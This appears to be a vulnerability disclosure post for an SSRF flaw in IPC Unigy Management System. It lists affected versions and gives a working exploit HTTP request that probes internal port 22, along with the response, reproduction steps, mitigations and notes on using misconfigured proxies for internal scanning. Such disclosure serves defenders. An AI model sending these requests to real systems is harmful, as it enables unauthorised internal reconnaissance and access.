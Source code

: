 ```yaml
---
layout: post
title: Vulnerability Report - SSRF
date: 2024-06-05 23:29:53
categories: vulnerability
tags:
- vulnerability
- Web
---
```


### Vulnerability Report: SSRF in IPC Unigy™ Management System

---

#### Vulnerability Description

A Server-Side Request Forgery (SSRF) vulnerability has been identified in the IPC Unigy™ Management System, affecting the following versions:

- **Unigy™ Version 04.03.00.08.0027**
- **COP Version 03.00.01.00.0018**
- **OS Patch Version 06.00.00.34.0008**

This vulnerability allows a remote attacker to make arbitrary HTTP requests to internal and external resources, using the affected system as a proxy. This can be exploited to access internal data, scan the internal network, and potentially exploit other vulnerabilities that would otherwise be inaccessible externally.

#### Technical Details

##### Exploitation Request

Below is an example of an HTTP request that exploits the SSRF vulnerability:

```
GET http://127.0.0.1:22 HTTP/1.1
Host: 127.0.0.1
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

##### Obtained Response

```
HTTP/1.1 200 OK
Date: Fri, 31 May 2024 15:01:18 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 19

SSH-2.0-OpenSSH_8.1
```

### Detailed Exploitation

#### Requests to Internal Ports

Exploitation can be conducted by sending requests to internal ports of the server itself:

![Internal Port Exploitation](assets/image.png)

#### Requests to External Sites

Additionally, requests can be sent to external websites, allowing the exploitation of external services using the vulnerable server as a proxy:

![External Site Exploitation](assets/image-1.png)

### Impact

Successful exploitation of this vulnerability could allow an attacker to:

- Access protected internal resources.
- Scan the internal network and discover other vulnerable systems.
- Conduct further attacks based on the information obtained.

### Reproducing the Vulnerability

1. Send the HTTP request above using a tool such as Burp Suite or Postman.
2. Observe the response that returns information about the internal service.

### Suggested Mitigations

To mitigate this vulnerability, it is recommended to:

- Implement strict validation and sanitization of user inputs.
- Restrict the destinations allowed for requests made by the server.

### Additional References

Exploiting misconfigured reverse proxies can allow attackers to access internal services through the proxy's "localhost" interface and other internal hosts. This can be done if the proxy allows connections to the "localhost" interface or internal hosts, which can be used as a rudimentary private network scanner.

#### Exploitation Examples

- **Connecting to SSH/SMTP**: A misconfigured HTTP proxy can be exploited to connect to non-HTTP ports, revealing sensitive information about target services.
- **Finding Hosts**: With the ability to connect to the private network through a proxy, host and port discovery can be conducted using tools like Burp Intruder to test various hostnames and ports.

For more information on exploiting open and misconfigured proxies, see the full article [Abusing Reverse Proxies, Part 2: Internal Access](https://blog.projectdiscovery.io/abusing-reverse-proxies-internal-access/).
